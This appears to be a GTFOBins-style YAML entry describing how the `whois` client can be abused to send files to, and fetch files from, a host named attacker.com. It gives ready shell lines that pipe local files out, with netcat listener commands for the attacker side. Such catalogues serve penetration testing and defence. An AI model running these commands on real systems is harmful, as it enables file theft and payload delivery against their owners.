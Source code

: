 ```yaml
---
description: |
  `whois` hangs waiting for the remote peer to close the socket.
functions:
  upload:
    - description: Send a text file to a TCP port. Run `nc -l -p 12345 > "where_to_save"` on the attacker box to collect the file. The file has a trailing `$'\x0d\x0a'` and its length is limited by the maximum size of arguments.
      code: |
        RHOST=attacker.com
        RPORT=12345
        LFILE=file_to_send
        whois -h $RHOST -p $RPORT "`cat $LFILE`"
    - description: Send a binary file to a TCP port. Run `nc -l -p 12345 | tr -d $'\x0d' | base64 -d > "where_to_save"` on the attacker box to collect the file. The file length is limited by the maximum size of arguments.
      code: |
        RHOST=attacker.com
        RPORT=12345
        LFILE=file_to_send
        whois -h $RHOST -p $RPORT "`base64 $LFILE`"
  download:
    - description: Fetch remote text file from a remote TCP port. Run `nc -l -p 12345 < "file_to_send"` on the attacker box to send the file. The file has instances of `$'\x0d'` stripped.
      code: |
        RHOST=attacker.com
        RPORT=12345
        LFILE=where_to_save
        whois -h $RHOST -p $RPORT > "$LFILE"
    - description: Fetch remote binary file from a remote TCP port. Run `base64 "file_to_send" | nc -l -p 12345` on the attacker box to send the file.
      code: |
        RHOST=attacker.com
        RPORT=12345
        LFILE=where_to_save
        whois -h $RHOST -p $RPORT | base64 -d > "$LFILE"
---
```

